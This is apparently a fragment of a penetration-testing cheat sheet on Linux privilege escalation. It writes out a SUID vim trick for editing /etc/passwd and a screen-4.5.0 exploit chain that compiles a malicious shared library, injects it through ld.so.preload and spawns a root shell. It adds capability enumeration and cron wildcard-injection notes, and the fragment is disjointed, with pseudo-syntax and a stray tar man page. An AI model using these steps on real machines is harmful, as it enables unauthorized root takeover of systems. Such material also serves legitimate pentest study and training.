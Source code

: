 ```
vim.basic with suid:

vim.basic /etc/passwd
```

```
screen-4.5.0 with suid:
https://github.com/X0RW3LL/XenSpawn/blob/main/spawn.sh

sudo ./spawn.sh Xenial
sudo systemd-nspawn -M Xenial
#Spawning container MACHINE_NAME on /var/lib/machines/Xenial 
#Press ^] three times within 1s to kill container.

root@Xenial:gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
root@Xenial:~# gcc -o rootshell -L libhax.so rootshell.c

#transfer libhax.so and rootshell to target machine's /tmp/
cd /etc
umask 000 # because
screen(with suid) -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
screen(with suid) -ls # screen itself is setuid, so...
/tmp/rootshell

#To completely remove the container from your system, you can use machinectl as follows
kali@kali:sudo machinectl remove MACHINE_NAME
```
###### CAP_SETUID capability
The two perl binaries stand out as they have setuid capabilities enabled, along with the +ep flag specifying that these capabilities are effective and permitted
```
/usr/sbin/getcap -r / 2>/dev/null
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d14b5115-a1a3-45fd-a23a-c4823198184f)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/e7e8b730-4760-4848-849e-394aaca5c74e)

### Cronjob to elevate privilege
1. Always remember to check if the file has executable perm when cron job runs it, otherwise even root runs it, doesn't execute the file
2. If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the /etc/crontab file
```
crontab -l
ls -al /etc/cron*
```
###### Cron using a script with a wildcard (Wildcard Injection)
```
[root@RedHat_test ~]# man tar
 -c新建打包文件，同 -v一起使用 查看过程中打包文件名
 -v压缩或解压过程中，显示过程
 -f要操作的文件名
 -r表示增加文件，把要增加的文件追加在压缩文件的末尾
 -t表示查看文件，查看文件中的文件内容
 -x解压文件
 -z通过gzip方式压缩或解压，最后以.tar.gz 为后缀
 -j通过bzip2方式压缩或解压，最后以.tar.br2 为后缀。压缩后大小小于.tar.gz
 -u更新压缩文件中的内容
 -p保留绝对路径，即允许备份数据中含有根目录
 -P保留数据原来权限及属性
```
```
CronJob:
```